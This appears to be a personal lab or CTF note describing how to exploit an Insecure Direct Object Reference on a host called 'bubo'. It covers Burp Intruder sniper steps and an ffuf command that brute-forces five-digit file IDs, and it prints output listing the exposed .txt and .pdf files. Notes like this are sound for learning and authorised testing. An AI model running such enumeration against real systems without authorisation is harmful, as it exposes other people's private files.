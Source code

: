 ----




##### Insecure Direct Object Reference (IDOR)
###### Bubo
#idor
###### Burpsuite Sniper Method
click on a test file in the `file repository`
![[Pasted image 20241205093820.png]]
send to `intruder`
![[Pasted image 20241205094007.png]]
in `intruder` add the `$$` to determine which field to test
![[Pasted image 20241205094740.png]]
under `Payloads` add the wordlist `/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt`
![[Pasted image 20241205094846.png]]
start `SNIPER` attack and identify all the `.txt` files that exist 
![[Pasted image 20241205095116.png]]

###### Fuzzing method
#ffuf
`ffuf` to identify pdf's
```bash
┌──(root💀gobots)-[11Nov2024 20:37:25]-[/home/kali]
└─# ffuf -w /usr/share/seclists/Fuzzing/5-digits-00000-99999.txt -u "http://bubo/scientific/repository/data/FUZZ" -e .txt,.pdf

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bubo/scientific/repository/data/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/5-digits-00000-99999.txt
 :: Extensions       : .txt .pdf 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

11211.txt               [Status: 200, Size: 893, Words: 136, Lines: 21, Duration: 28ms]
11345.pdf               [Status: 200, Size: 67359, Words: 806, Lines: 524, Duration: 28ms]
13262.txt               [Status: 200, Size: 698, Words: 105, Lines: 15, Duration: 28ms]
14121.txt               [Status: 200, Size: 1187, Words: 183, Lines: 25, Duration: 27ms]
21925.pdf               [Status: 200, Size: 52794, Words: 597, Lines: 406, Duration: 28ms]
26711.txt               [Status: 200, Size: 1356, Words: 208, Lines: 31, Duration: 28ms]
31512.txt               [Status: 200, Size: 336, Words: 30, Lines: 18, Duration: 143ms]
42123.txt               [Status: 200, Size: 850, Words: 135, Lines: 20, Duration: 29ms]
74821.txt               [Status: 200, Size: 1499, Words: 227, Lines: 33, Duration: 71ms]
82911.txt               [Status: 200, Size: 1308, Words: 169, Lines: 42, Duration: 28ms]
:: Progress: [300000/300000] :: Job [1/1] :: 1351 req/sec :: Duration: [0:04:12] :: Errors: 0 ::
```
